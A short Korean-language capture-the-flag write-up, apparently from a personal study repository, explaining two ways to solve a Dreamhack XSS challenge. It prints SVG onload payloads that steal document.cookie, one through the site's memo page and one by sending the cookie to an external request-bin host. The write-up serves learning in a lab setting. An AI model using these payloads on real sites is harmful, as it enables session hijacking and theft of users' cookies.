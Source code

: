 <br/><br/>

## 익스플로잇
#### 방법 1: memo 페이지 이용
1. flag 엔드포인트에서 ```<svg onload=“location.href=‘/memo?memo=‘+document.cookie;”>```를 입력하고 [제출] 버튼을 클릭함
	<img width="918" alt="memo 페이지_1" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/66be4fdd-9b6a-40e7-9dd1-3b118d97591b">

2. “good” 알림창이 출력되면 memo 페이지로 이동하여 화면에 출력된 임의 이용자의 쿠키 정보(FLAG)를 획득할 수 있음
	<img width="918" alt="memo 페이지_2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/dc6efc2d-9040-437e-8728-6d25fa37b425">

<br/>

#### 방법 2: 외부 웹 서버 이용
1. 외부에서 접근 가능한 웹 서버를 준비함
	- Dreamhack에서 제공하는 [드림핵툴즈 서비스](https://tools.dreamhack.games)의 Request Bin 기능을 이용함
		+ Request Bin 항목에서 랜덤한 URL이 생성되는 것을 확인하고 이를 복사해둠
	<img width="1589" alt="외부 웹 서버_1" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/c7204d8e-5387-4a34-ba6e-5e11ccab8479">

2. flag 엔드포인트에서 ```<svg onload=“location.href=‘http://RANDOMHOST.request.dreamhack.games/?memo='+document.cookie;">```를 입력하고 [제출] 버튼을 클릭함
	<img width="918" alt="외부 웹 서버_2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/e5f20769-eb83-4a90-85f4-7f63bbf65169">

3. “good” 알림창이 출력되면 웹 서버의 접속 기록을 확인하여 QueryString 부분에서 임의 이용자의 쿠키 정보(FLAG)를 획득할 수 있음
	<img width="1589" alt="외부 웹 서버_3" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/518859a3-b273-492a-895a-260a303eefde">

